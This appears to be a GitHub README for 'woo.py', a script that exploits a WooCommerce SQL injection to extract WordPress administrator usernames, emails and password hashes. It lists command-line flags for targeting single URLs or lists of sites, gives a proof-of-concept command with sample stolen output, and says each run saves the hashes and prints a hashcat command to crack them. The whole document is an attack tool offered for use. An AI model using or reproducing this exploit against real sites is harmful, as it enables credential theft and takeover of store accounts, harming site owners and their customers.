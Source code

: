 # woo
Exploit woocommerce SQLI and grab user and password hash

Commands
---

```
usage: woo.py [-h] [-u URL] [-f FILE] [-p PROXY] [-i WID]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to test
  -f FILE, --file FILE  File of urls
  -p PROXY, --proxy PROXY
                        Proxy for debugging
  -i WID, --wid WID     User ID of User
```

POC
---

```
python3 woo.py -u https://www.website.com -i 1
```

```
Admin ID: 2
Admin Username: admin@website.com
Admin Email Address: admin@admin.com
Admin Password Hash:$P$BIAtNs11r0CBJZxa3B1JLrFd5C9f7r/
```

everytime this is ran it writes the hashs to wphash.has and gives you a hash cat command to crack them
